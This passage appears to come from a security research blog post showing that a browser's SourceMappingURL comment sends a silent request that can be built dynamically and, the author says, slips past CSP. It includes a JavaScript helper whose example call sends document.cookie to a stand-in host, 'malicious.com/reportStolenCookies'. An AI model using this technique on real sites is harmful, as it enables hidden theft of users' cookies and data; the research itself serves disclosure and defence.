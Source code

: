 It had immediately drawn my attention when I realized its first interesting property:

### [The request to SourceMappingURL is completely silent and hidden](https://us-central1-smap-251411.cloudfunctions.net/caseSourceMap)

If a script contains the `SourceMappingURL=` comment and is attached to the DOM, the browser will fire a request to the link specified after the `=` sign - but you won’t be able to tell that by looking at the devtools - you won’t see anything in the network panel nor the console panel - simply nowhere! The only way of telling that request had happened is by either using some sort of a network debugging proxy (such as [fiddler](https://www.telerik.com/fiddler) or [wireshark](https://www.wireshark.org/)) or looking for that request in `chrome://net-export` in Chrome browser for example. The response to this request however cannot be captured by client side Javascript since it is being handled by the browser itself (because the browser is the one to get the source map and use it to map the bundled resources to the original resources).

Now that caught my attention! Being able to fire a hidden request from the browser! now that’s powerful. This is where I wondered about other properties this request might have that might be abused by attackers.

So firing a hidden request is awesome and everything, but it is just a static request. I mean, if I could dynamically construct the url to which the SourceMappingURL request should go, that would be even more powerful.

### [The SourceMappingURL can be constructed dynamically (on-the-fly)](https://us-central1-smap-251411.cloudfunctions.net/dynamic)

The following works:

```javascript
function  smap(url, data)  {
	const script = document.createElement('script');
	script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
	document.head.appendChild(script);
	script.remove();  // that's right! the script doesn't even have to stay in DOM for this feature to work! how cool is that?!
}

smap('https://malicious.com/reportStolenCookies',  {cookie: document.cookie});
```

And since this works, I can leak any type of dynamic information I want from the browser at its current execution. I can steal cookies, report timestamp and generally collect any type of information I wish to report and simply add it to the SourceMappingURL in order to send it. This is some powerful stuff!

So far so good. But as I always do when I learn of a new trick to send requests from the browser - I tried to see if I can use this one to bypass [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) rules.

### [The request made by SourceMappingURL bypasses CSP completely](https://us-central1-smap-251411.cloudfunctions.net/csp)
